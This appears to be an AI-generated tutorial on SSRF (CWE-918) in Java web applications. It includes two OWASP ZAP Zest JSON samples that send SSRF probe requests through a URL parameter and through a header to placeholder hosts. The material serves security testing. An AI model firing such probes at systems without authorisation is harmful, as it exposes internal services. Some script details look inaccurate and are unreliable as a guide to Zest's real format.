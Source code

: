 # Server-Side Request Forgery (SSRF) (CWE-918) in Java

###### Understanding Server-Side Request Forgery (SSRF)

**1. Introduction to SSRF:**
Server-Side Request Forgery (SSRF) is a security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain selected by the attacker. SSRF is typically used to target internal systems behind firewalls that are not accessible from the external network. 

**2. How SSRF Manifests in Java Web Applications:**
Java-based web applications, especially those that fetch data from other servers or services, can be vulnerable to SSRF. In Java, SSRF might exploit:
- URL parameters: directly modifying URLs used in the backend.
- HTTP request bodies: injecting malicious URLs in POST request bodies.
- Cookies and headers: exploiting server logic to manipulate internal networks.
Injection points might appear in code that utilizes:
- `HttpURLConnection`
- Libraries like Apache HttpClient or OkHttp
- RESTful services that accept URL input.

**3. Common Injection Points:**
- URL Parameters
- HTTP Request Bodies
- HTTP Headers
- Cookies
- Query Strings

### Indicators of SSRF

**1. Indicators of Successful SSRF:**
- Unexpected HTTP responses from the server, such as internal service data.
- Changes in HTTP status codes, e.g., `200 OK` for internal endpoints or `403 Forbidden`.

**2. Patterns in Responses:**
- Specific error messages indicating internal service addresses exposure.
- Patterns in response headers showing internal services.

### Creating ZAP Zest Scripts

**1. Zest Script Structure:**
Zest scripts are designed to automate web security tasks by simulating user actions, checking responses, and altering the flow based on conditions.

**2. Zest Script Components:**
- `ZestRequest`: Simulates HTTP requests.
- `ZestAssertion`: Checks conditions in HTTP responses.
- `ZestAction`: Alters or processes based on assertions.
- `ZestExpression`: Adds logic to control script flow.

**3. Sample Scripts:**

**Example 1: URL Parameter SSRF**
```json
{
  "title": "SSRF via URL Parameter",
  "requests": [
    {
      "url": "http://vulnerable-application.com/api?url=http://internal-service.local",
      "method": "GET",
      "headers": [
        {
          "name": "User-Agent",
          "value": "Mozilla/5.0"
        }
      ],
      "index": 1,
      "elementType": "ZestRequest"
    }
  ],
  "assertions": [
    {
      "rootExpression": {
        "code": 200,
        "not": false,
        "elementType": "ZestExpressionStatusCode"
      },
      "elementType": "ZestAssertion"
    },
    {
      "rootExpression": {
        "regex": "secretInfo",
        "location": "BODY",
        "elementType": "ZestConditionRegex"
      },
      "elementType": "ZestAssertion"
    }
  ]
}
```
**Explanation:**
- `ZestRequest`: Sends an HTTP GET request to the vulnerable application with a potentially malicious URL parameter.
- `ZestAssertion`: Checks if the HTTP status code is `200 OK` and searches for a pattern `"secretInfo"` in the response body to verify successful SSRF exploitation.

**Example 2: SSRF via HTTP Headers**
```json
{
  "title": "SSRF via HTTP Headers",
  "requests": [
    {
      "url": "http://vulnerable-application.com/api",
      "method": "POST",
      "headers": [
        {
          "name": "X-Forwarded-For",
          "value": "http://internal-service.local"
        }
      ],
      "data": "param1=value1&param2=value2",
      "index": 1,
      "elementType": "ZestRequest"
    }
  ],
  "assertions": [
    {
      "rootExpression": {
        "code": 200,
        "not": false,
        "elementType": "ZestExpressionStatusCode"
      },
      "elementType": "ZestAssertion"
    },
    {
      "rootExpression": {
        "regex": "Welcome internal user",
        "location": "BODY",
        "elementType": "ZestConditionRegex"
      },
      "elementType": "ZestAssertion"
    }
  ]
}
```
**Explanation:**
- `ZestRequest`: Sends an HTTP POST request with headers designed to target internal services.
- `ZestAssertion`: Checks the response for a successful status code and specific response body patterns to confirm SSRF.

### Conclusion and Recommendations

By leveraging Zest scripting capabilities in OWASP ZAP, security testers can automate the detection of SSRF vulnerabilities more efficiently. Ensure the scripts are tailored to specific Java application behaviors to reduce false positives and negatives. Regularly update and refine the scripts based on the evolving threat landscape and application changes.

Citations:
- 【4:0†Zest_Scripting_Documentation.md】
- 【4:1†Zest_Scripting_Documentation.md】
- 【4:2†Zest_Scripting_Documentation.md】